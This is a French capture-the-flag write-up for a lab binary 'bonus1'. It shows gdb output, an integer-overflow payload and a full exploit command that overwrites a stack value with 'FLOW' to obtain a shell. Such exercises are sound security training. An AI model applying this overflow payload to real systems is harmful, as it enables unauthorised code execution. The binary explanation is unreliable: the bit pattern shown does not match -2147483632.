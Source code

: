 # Bonus1 - Integer Overflow

## Contexte
Le programme prend deux arguments :
- Un nombre qui doit être inférieur à 9
- Une chaîne de caractères qui sera copiée
  
- En donnant 9 a memcpy on observe que nous n'avons toujours pas assez d'espace copier pour ecraser le retour de atoi pour y mettre 0x574f4c46
```nasm
(gdb) x/32wx 0xbffff414
0xbffff414:     0x41306141      0x61413161      0x33614132      0x41346141 ---> argv[2]
0xbffff424:     0x61413561      0x37614136      0x41386141      0x62413961 ---> argv[2]
0xbffff434:     0x31624130      0x080484b9      0x00000009
                                                      |
                                        atoi(9)<------+
```

- Il va falloir overflow l'int qui, apres une multiplication par 4 (decalage de 2bits a gauche) soit positif, assez grand pour overflow esp+0x3c

## Vulnérabilités

**Integer Overflow**
- La vérification `nb > 9` est effectuée
- Un nombre négatif peut passer la vérification
- Après multiplication par 4, le résultat peut devenir un nombre positif

## Exploitation

**Calcul de l'Integer Overflow**
- Valeur recherchée : -2147483632
- En binaire : 1000 0000 0000 0000 0000 0000 0000 0011
- Après multiplication par 4 : 0000 0000 0000 0000 0000 0000 0000 1100

## Processus d'Exploitation

1. Le nombre négatif passe la vérification `nb > 9`
2. La multiplication par 4 transforme ce nombre en valeur positive
3. memcpy copie suffisamment de données pour atteindre var_3c
4. La valeur 0x574f4c46 est écrite à l'emplacement de var_3c
5. La condition est validée et le shell est exécuté


**Construction du Payload**
```python
# Premier argument : integer overflow
"-2147483632"

# Second argument : padding + valeur cible
"A"*40 + "\x46\x4c\x4f\x57"  # "FLOW" en little-endian
```

**Commande d'Exploitation**
```bash
./bonus1 "-2147483632" $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
```


